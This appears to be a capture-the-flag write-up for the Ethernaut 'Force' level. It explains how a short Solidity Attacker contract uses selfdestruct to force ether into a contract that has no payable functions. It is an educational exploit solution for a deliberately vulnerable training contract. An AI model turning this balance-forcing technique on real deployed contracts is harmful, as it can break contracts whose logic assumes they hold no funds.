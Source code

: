 # Ethernaut: 7. Force

> Some contracts will simply not take your money ¯\\\_(ツ)\_/¯

**Objective of CTF:**

- Make the balance of the contract greater than zero.

**Target contract:**

[Play the level](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

This contract is supposedly not accepting any payments. Well, it is possible to force money into a contract by `selfdestruct`'ing a contract with some balance, with the target contract address as the parameter.

We deploy the contract below with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
  function pwn(address _target) payable public {
    selfdestruct(payable(_target));
  }
}
```

That is all about this one!
